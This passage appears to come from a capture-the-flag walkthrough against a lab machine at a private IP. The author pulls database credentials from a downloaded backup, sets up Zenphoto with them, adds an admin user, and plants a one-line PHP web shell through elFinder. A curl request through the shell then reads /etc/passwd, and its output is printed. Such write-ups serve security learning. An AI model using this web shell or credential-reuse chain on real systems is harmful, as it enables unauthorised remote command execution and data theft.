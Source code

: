 {% highlight bash %}
wget http://10.37.129.9/backups/SimplePHPQuiz-Backupz.tar.gz
tar -zxvf SimplePHPQuiz-Backupz.tar.gz
cd SimplePHPQuiz
grep -ir 'password' *
includes/db_conn.php:DEFINE ('DB_PASSWORD', 'dbpassword');
includes/db_conn.php:@ $dbc = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
grep -ir 'db_user' *
includes/db_conn.php:DEFINE ('DB_USER', 'dbuser');
includes/db_conn.php:@ $dbc = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
{% endhighlight %}

http://10.37.129.9/admin/

dbuser:dbpassword

success

Still nothing....

http://10.37.129.9/zenphoto

Loads up the zenphoto installer, so I set it up with the db credentials from the SimplePHPQuiz configs.

Now add my own admin user, admin:dr0wss4p!

Poke around a bit to try and upload a file, then looking through plugins I see the option to enable elFinder, turn it on and create a shell.php file, then edit the file in elFinder:

{% highlight php %}
<?php system($_GET["cmd"]); ?>
{% endlight %}

This will serve as a starting point to getting a real reverse shell going:

curl -v http://10.37.129.9/zenphoto/uploaded/shell.php?cmd=cat%20/etc/passwd

To test it out:

{% highlight bash %}
curl -v http://10.37.129.9/zenphoto/uploaded/shell.php?cmd=cat%20/etc/passwd
*   Trying 10.37.129.9...
* TCP_NODELAY set
* Connected to 10.37.129.9 (10.37.129.9) port 80 (#0)
> GET /zenphoto/uploaded/shell.php?cmd=cat%20/etc/passwd HTTP/1.1
> Host: 10.37.129.9
> User-Agent: curl/7.52.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Tue, 08 Aug 2017 04:37:55 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 2156
< Content-Type: text/html; charset=UTF-8
<
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin